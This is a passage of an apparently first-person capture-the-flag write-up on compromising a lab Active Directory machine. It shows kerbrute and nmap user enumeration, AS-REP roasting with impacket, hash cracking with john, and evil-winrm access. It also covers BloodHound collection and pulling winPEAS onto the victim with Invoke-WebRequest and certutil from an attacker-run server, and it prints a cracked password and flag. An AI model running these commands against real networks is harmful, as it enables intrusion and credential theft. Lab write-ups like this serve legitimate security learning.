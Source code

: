 The script to enumerate is as follows:

`./kerbrute_linux_arm64 userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/SecLists-master/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175`

(I want to note as well, that there is an `nmap` script available for this as well. The caveat is that it's very slow comparatively. It will also throw memory errors should the list be too big, like the one above. `nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='EGOTISTICAL-BANK.LOCAL',userdb='/usr/share/seclists/SecLists-master/Usernames/KerberosAZnoDot' 10.10.10.175`. This can serve as another way to skin the cat, albeit frustratingly.)

![Image](/assets/Screenshot 2024-09-15 at 3.27.53 PM.png)

We get provided with user 'fsmith' and TGT! We can ASREP roast now. Interestingly, though, if we try to crack this we'll get no hits. While the program identified which user can be granted TGT access, it misidentifies the ticket. Not a problem, though. Now that we know which user it is, we can use `GetNPUsers.py` from `impacket` to do the work for us and provide a valid ticket. Then, we can crack with `john`.

`python3 GetNPUsers.py -no-pass -dc-ip 10.10.10.175 egotistical-bank.local/fsmith`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

![Image](/assets/Screenshot 2024-09-16 at 9.24.39 AM.png)

Now that we've got credentials, we can use `evil-winrm` to access PowerShell. Remember, this is only contingent upon the `wsman` and `winrm` ports being available.

We can navigate to the user desktop for our flag.

`USER:31e6cb87fa28ca802791cfaa71095dfd`

### Privilege Escalation

To elevate our privileges, I tried my hand at the remote python ingester for Bloodhound, as I'd never used it before. The script is as follows:

`bloodhound-python -d egotistical-bank.local -u fsmith -p Thestrokes23 -ns 10.10.10.175 -c all`

I'll say as well, it worked well. If there's a reason one doesn't want to transfer another ingester like SharpHound to the victim, this is a fine and easy alternative.

After dumping the contents into the software for my POC graph and map, I used `winPEAS` as well to enumerate a bit further. Of course, transferring the file didn't come without its fair share of issues. After lots of trial and error, I think the problem is making sure it's the correct kind of file, and saving it to an outfile on the victim machine. I used `python3 -m http.server 80` to host, and then used:

`powershell "Invoke-WebRequest -UseBasicParsing 10.10.14.3:80/winPEASany.exe -OutFile winPEAS.exe"`

 Use `.\winPEAS.exe` to execute the file when ready.

(Putting `certutil` here if nothing else works as a backup for whoever needs: `certutil.exe -urlcache -split -f (http://10.10.10.10/winpeas.exe) winpeas.exe`)

`winPEAS` constantly punches above it's weight, and this time is no different. An account called `svc_loanmgr` has credentials stored in plaintext.
